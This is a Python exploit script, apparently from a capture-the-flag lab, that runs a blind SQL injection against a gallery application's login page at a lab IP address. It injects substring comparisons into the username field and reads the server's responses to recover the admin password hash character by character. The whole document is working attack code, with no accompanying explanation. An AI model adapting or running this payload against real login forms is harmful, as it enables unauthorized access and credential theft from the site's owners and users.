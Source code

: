```python
#!/usr/bin/python3

import string, signal, pdb, requests
from pwn import *

def ctrl_c(sig, frame):

    print ("\n\n[!] Saliendo.\n")
    sys.exit(1)

# Ctr + C
signal.signal(signal.SIGINT, ctrl_c)

# Variables
url = 'http://10.10.47.107/gallery/classes/Login.php?f=login'
characters = 'abcdef' + string.digits


def SQlI():
    
    l1 = log.progress('SQLI')

    l1.status("Iniciando Ataque")
    
    password = ''

    time.sleep(1)
    
    l2 = log.progress('Password')

    for position in range(1,35):

        for character in characters:

            data_post = {
                    "username":"admin' and if(substring(password,%d,1)='%c',sleep(0),1)-- -" % (position, character),
                    "password":"admin"
                    }

            l1.status(data_post['username'])

            r = requests.post(url, data=data_post)

            if "success" not in r.text:
                
                password += character
                l2.status(password)
                break


if __name__ == "__main__":
    SQlI()
```
